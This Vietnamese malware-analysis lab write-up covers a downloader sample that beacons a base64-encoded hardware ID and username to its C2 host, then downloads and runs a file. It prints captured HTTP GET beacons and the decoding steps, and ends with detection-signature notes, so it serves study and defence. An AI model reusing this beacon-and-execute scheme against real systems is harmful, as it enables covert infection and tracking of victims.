









# Ques 1:Which networking libraries does the malware use, and what are their advantages?
Mở malware vào IDA thì ta vào bảng Import tables thì ta sẽ thấy thư viện `Windows DLL urlmon.dll (OLE32 Extensions for Win32)` có sử dụng API `‘`URLDownloadToCacheFile’` sẽ leo thang lên COM objects



Sử dụng Fakenet-ng để bắt được HTTP request 
```
GET /ODA6NmU6NmY6NmU6Njk6NjMtSUVVc2Vy/y.png HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Trident/4.0;
SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)
Host: www.practicalmalwareanalysis.com
Connection: Keep-Alive
```
Ở conmalware này thì có 1 ưu điểm là sử dụng COM giao diện giống như request API tự động lấy thông tin chính xác về `User_agent` từ hệ điều hành.
# Ques 2: What source elements are used to construct the networking beacon, and what conditions would cause the beacon to change?
Ở câu trên ta đã thấy GET request đến 1 đường link `ODA6NmU6NmY6NmU6Njk6NjMtSUVVc2Vy`. Chúng ta sẽ dịch thử base64 thì có được kết quả phía dưới
`80:6e:6f:6e:69:63-IEUser`. Ở mẫu này ta có thể thấy thành phần đầu tiên là địa chỉ MAC với dầu `-` và thông tin user đăng nhập vào. Nếu ta tìm địa chỉ MAC của hệ thống máy ảo này thì thấy không trùng khớp.
Mở malware bằng IDA.

Mở đầu của chương trình ta thấy gọi hàm `GetCurrentHwProfileA ` chạy đầu tiên đẻ lấy thông tin hệ thống , sau dó sẽ gọi hàm `GetUserNameA` để lấy tên user mà có sử dụng ở câu 1.

Ta có thể lấy GUID bằng cách nhập ở cmd lệnh sau

Từ đây ta có thể khẳng định các id kia không phải địa chi MAC mà là 12 byte cuối từ registry key.

Nếu ta chạy ở 1 máy ảo khác thì ta sẽ thấy 1 thông tin HTTP GET request khác
```
GET /ODA6NmQ6NjE6NzI6Njk6NmYtYm9i/i.png HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 2.0.50727; .NET4.0C; .NET4.0E)
Host: www.practicalmalwareanalysis.com
Connection: Keep-Alive
```


Sau đó ta sẽ giải mã Base 64 và kiểm tra xem có khớp như dự đoán không
`80:6d:61:72:69:6f-bob`

Kết quả đúng như dự đoán.

# Quest 3:Why might the information embedded in the networking beacon be of interest to the attacker?
Thông tin trên thống như 1 dữ liệu duy nhatass như ID đại diện cho hệ thống và các user. Các hacer thích điều này vì muốn giữ liên lạc với các máy bị nhiễm và các hệ thống và user đặc biệt được nhắm đến.
# Quest 4:Does the malware use standard Base64 encoding? If not, how is the encoding unusual?

Nếu ta nhín vào String window của IDA thì sẽ thấy có 1 chuỗi giống như mã hóa Base 64 index string.


Bằng cách bấm X tìm reference của chuối string `byte_4050C0` thì ta đến được hàm `‘sub_401000’` có thể coi đây là hàm mã hóa. 1 điều thú vị là phần `padding` họ thay vì dùng dấu thì họ sẽ dùng `61h(a)`


Quest 5:What is the overall purpose of this malware?
Ta sẽ phân tích hàm `sub_4011A3` sau khi hàm mã hóa Base64 được chạy. Ở đây ta thấy có gọi hàm API `‘URLDownloadToCacheFileA` để tải file về thư mục cache và trả về filename/ địa chỉ.

Sau đó ta thấy có gọi 1 hàm `CreateProcessA` sẽ chạy file được tải về từ url. Tieps tục phân tích thì thấy nếu thành công thì sẽ sleep ‘0EA60h’ (60000) milliseconds

Từ đây ta có thể kết luận rằng đây là dạng malware ‘Downloader and Launcher’, or ‘Dropper’ đê tải và thực thi chương tình cho mục đích mai sau.

# Ques 6: What elements of the malware’s communication may be effectively detected using a network signature?
Ta sẽ để í đến địa chỉ GET sẽ được mã hóa bằng base64 có 1 file png có tên chứa 1 kí tự duy nhất. Đó là ký tự cuối cùng của mã hóa Base 64

Sau đó là địa chỉ `www.practicalmalwareanalysis.com` là C2 server.

Tiếp là các dấu giữa `-` GUID và username 

# Ques 7: What mistakes might analysts make in trying to develop a signature for this malware?
Ta thấy phần padding của mã hóa base 64 luôn trả về ký tự `a` thành ra là luôn tải về ảnh `a.png`

1 lỗi khác đó là sử dụng thông tin của các mục tiêu được thay đổi qua mỗi hệ thống khác nhau. Nếu điều này được setup để thông báo bất cứ luuw lượng nào đến domain này trong trường hợp bị xâm phạm hoặc được dùng lại thì viêc tạo rul sẽ rất dễ dàng ???

# Ques 8:What set of signatures would detect this malware (and future variants)?
Cái này mình xem giải =)))

Thanks for reading~~~!!!